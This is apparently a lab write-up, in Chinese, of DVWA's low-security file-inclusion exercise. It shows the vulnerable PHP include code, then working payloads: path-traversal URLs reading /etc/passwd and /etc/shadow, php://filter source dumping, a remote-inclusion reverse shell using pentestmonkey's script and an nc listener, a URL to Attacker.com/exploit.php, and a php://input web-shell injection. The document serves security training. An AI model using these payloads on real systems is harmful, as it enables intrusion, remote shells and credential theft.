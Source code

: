 # File Inclusion - Low

## View Source

```PHP
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```

### Include

```PHP
if( isset( $file ) )
    include( $file );
else {
    header( 'Location:?page=include.php' );
    exit;
}
```
- `docker exec -it dvwa /bin/bash`
- `vim /var/www/html/vulnerabilities/fi/index.php`
    - https://github.com/digininja/DVWA/blob/master/vulnerabilities/fi/index.php#L36
- [`include()`](https://www.php.net/manual/zh/function.include.php)
    - 引入並運行指定檔案

## Code Review

- 透過輸入的 `page=` 來設置 `$file` 變數
- 若有設置 `$file` 就引入檔案

## Answer

- 頁面總共有三個 *file_.php* 的超連結，可以觀察到網址從
- `http://127.0.0.1/vulnerabilities/fi/?page=include.php` 變成 `http://127.0.0.1/vulnerabilities/fi/?page=file1.php`
- 也就是差在 `page=` 後面接的不同，就可以操控引入的檔案

### Example

- 可搭配 *PHP* 的偽協議
    - https://www.php.net/manual/en/wrappers.php
    - E.g., *file:// — Accessing local filesystem*, *php:// — Accessing various I/O streams*
#### LFI

- 可以透過此漏洞來查看系統相關訊息
    - E.g., `/etc/passwd`, `/etc/shadow`, `/etc/group` 等
```
http://127.0.0.1/vulnerabilities/fi/?page=../../hackable/flags/fi.php
http://127.0.0.1/vulnerabilities/fi/?page=../../../../../etc/passwd
http://127.0.0.1/vulnerabilities/fi/?page=/etc/passwd
http://127.0.0.1/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=./include.php
```

#### RFI

- 漏洞利用可參考 *Intro.md* 的 *Reference*
    1. `docker exec -it dvwa /bin/bash`
    2. `git clone https://github.com/pentestmonkey/php-reverse-shell.git`
        - `apt-get install git-all`
    3. `python3 -m http.server`
        - `apt-get install python3`
    4. 另一個終端機輸入 `nc -nlvp 1234`
        - `apt-get install netcat`
    5. 回到網頁 `http://127.0.0.1/vulnerabilities/fi/?page=http://0.0.0.0:8000/php-reverse-shell.php`
```
http://127.0.0.1/vulnerabilities/fi/?page=http://www.google.com
http://127.0.0.1/vulnerabilities/fi/?page=http://0.0.0.0:8000/RFI.php
http://127.0.0.1/vulnerabilities/fi/?page=http://0.0.0.0:8000/ReverseShell.php
http://127.0.0.1/vulnerabilities/fi/?page=http://Attacker.com/exploit.php
```

#### Burp Suite

1. 使用 *Burp Suite* 的 *Proxy* 來攔截 *request* 封包
2. 改成 `GET /vulnerabilities/fi/?page=php://input&cmd=pwd HTTP/1.1`
3. 底下新加 `<?php system($_GET['cmd']); ?>`

### Note

> 有 *file4.php* 是彩蛋 (？)
- `http://127.0.0.1/vulnerabilities/fi/?page=file4.php`

> 透過可引入 *google.com* 來證明能夠 *RFI*，但如果是使用 *docker* 架設 *DVWA* 的話，*RFI* 的 *python http server* 和檔案可放在 *docker container* 裡面來嘗試